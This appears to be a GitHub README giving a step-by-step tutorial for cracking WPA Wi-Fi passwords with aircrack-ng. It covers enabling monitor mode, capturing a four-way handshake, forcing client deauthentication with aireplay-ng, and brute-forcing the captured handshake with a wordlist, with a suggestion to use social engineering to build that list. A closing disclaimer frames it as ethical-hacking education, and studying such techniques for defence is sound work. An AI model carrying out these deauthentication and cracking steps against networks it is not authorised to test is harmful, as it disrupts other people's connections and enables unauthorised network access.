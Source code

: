 # Instruction

## link youtube video: https://www.youtube.com/watch?v=jeImlZR2A4w

- [ ] TODO Automated Bash Script to do all the process


### Find your current interface configuration, you should use a wifi module that have embedded the monitor mode functions.


***Does my WI-FI supports monitor mode?***
---> #https://blog.rottenwifi.com/wifi-monitoring-mode/#Does_My_Wi-fi_Support_Monitor_Mode

run this command to see the available interfaces on your machine

```
$ ifconfig
```

if you you want to enable an interface use this command

```
$ ifconfig {interfaceName} up
```
In case of the video i use the embedded wlan0 

```
$ ifconfig wlan0 up
```

Use airmon-ng start wlan0 to enable monitor mode on the wireless interface

```
$ airmon-ng start wlan0
```

Once it's enable run the command to monitor all the Wi-Fi signal nearby ***wlan0*** will become wlan0mon due to the previous command

```
$airodump-ng wlan0mon 
```

Choose a connection that you want to try

***I suggest to use meanwhile all the process a file, in which you save notes during all the process, this will be helpful for the next steps.***

create a directory, in which you will save the file.cap that will be generated during the dumps.

```
$ mkdir /....
```

run the command below from the folder previous created to start sniffing the connection. 
The aim is to find a four handshake made by the modem, when a device disconnects himself from the Wi-Fi or request a new authentication or other reason due to the connection standards.
The command to run contains various option.

Below the command and some details regarding it:

```
$ airodump-ng wlan0mon -c 10 --bssid {MAC_ADDRESS} -w ./..{crack.cap}
```

***A briefly description of the option:***

```
-c  indicates the channel trasmission of the modem

-bssid  indicates the Basic Service Set Identifier

-w indicates the location to write the files
```

Now we have to wait until a device will request a deauth

Boring? 

There is a command to speed up this waiting, simulating a deauth from one device connected to the current target modem.

```
$ aireplay-ng -0 18 -a {MAC_ADDRESS} -c {MAC_ADDRESS} wlan0mon
```

***A briefly description of the option***

```
-0 indicates the number of the deauth tempatives packets 
-a MAC_ADDRESS of the modem
-c MAC_ADDRESS of the device to imperson for the deauth
```

If we are lucky there will be a line outputed on the logs from the command airdump (running on background).

*** Example ***

```
WPA handshake: {MAC_ADDRESS}
```

Finally it's time to crack

utilizing the file {name}.cap generated from the airdump command, we run the command

```
aircrack-ng -a2 -b {MAC_ADDRESS} -w {wordListPasswordFile} {name}.cap 
```

***the major difficulty could be guessing the right password, if we use some social engineering we can build a small list password word to brute force. Moreover we can go with big files, maybe we will find the password or not (In this case is trivial to chose a complex password so it will be very very difficult to hack***




 
## Disclaimer: Hacking without permission is illegal. This repo is strictly educational for learning about cyber-security in the areas of ethical hacking and penetration testing so that we can protect ourselves against the real hackers.

